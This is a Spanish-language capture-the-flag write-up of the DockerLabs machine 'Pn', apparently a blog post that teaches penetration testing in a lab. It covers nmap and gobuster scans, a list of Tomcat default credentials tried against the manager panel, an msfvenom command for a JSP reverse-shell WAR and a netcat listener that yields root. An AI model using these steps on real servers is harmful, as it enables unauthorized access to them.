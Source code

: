 ```yaml
---
title: Pn - DockerLabs
published: true
categories: DockerLabs
---
```


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     |
| Linux  |  Fácil      | El Pingüino de Mario |

# Reconocimiento Inicial

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo.

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports
```

- `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![Resultado del escaneo](https://github.com/user-attachments/assets/5811d9cc-09c3-4632-ae97-1865205329b8)

Durante el escaneo, descubrimos que el puerto abierto es:
- `8080` (HTTP)

# Enumeración de Servicios

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad y obtenemos más información sobre los servicios asociados a estos puertos.

```bash
nmap -p8080 -sCV 172.17.0.2 -oG targeted
```

![Resultado del escaneo con servicios](https://github.com/user-attachments/assets/cbfab6eb-5a1b-415a-9365-5bfa0433ec73)

# Exploración Web

Al navegar al puerto `8080`, descubrimos un sitio web de **Apache Tomcat** en su versión `9.0.88`.

![Sitio web Tomcat](https://github.com/user-attachments/assets/28c15c29-fe88-47da-b8b4-2311ef0f81d1)

## Reconocimiento de Directorios

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```

- `gobuster dir`: Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/`: Especifica la URL objetivo que deseas escanear.
- `-w`: Especifica el diccionario a utilizar.
- `-x`: Indica los tipos de extensiones que deseas buscar.

![Resultado de Gobuster](https://github.com/user-attachments/assets/c3203ae4-dff2-4938-a70c-28346f56dc1d)

## Intentos de Acceso con Credenciales por Defecto

El acceso al panel administrativo requería credenciales. Probamos varias combinaciones de usuario y contraseña por defecto:

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

En este caso, las credenciales correctas fueron:

- **Usuario**: `tomcat`
- **Contraseña**: `s3cr3t`

![Acceso al panel de Tomcat](https://github.com/user-attachments/assets/7a43f554-3f08-4bba-b332-73b85b16a206)

# Creación de Reverse Shell

Con acceso al panel, generamos una reverse shell utilizando un archivo malicioso `.war` creado con `msfvenom`.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o revshell.war
```

![Archivo malicioso generado](https://github.com/user-attachments/assets/39c7a47a-ddf5-4dbd-82a0-c9e7012fd64a)

Subimos el archivo al servidor y simultáneamente escuchamos el puerto `4444` con `netcat`.

```bash
nc -lvnp 4444
```

![Reverse shell activa](https://github.com/user-attachments/assets/2c558562-adcd-4c54-b885-214fd9c29b4b)

# Escalada de Privilegios

Al acceder al sistema, ya tenemos permisos de **root**.

![Acceso como root](https://github.com/user-attachments/assets/5aaa3629-ccef-41bd-a808-908ddcf472ab)

---

Con esto completamos el ejercicio **-Pn** en DockerLabs.

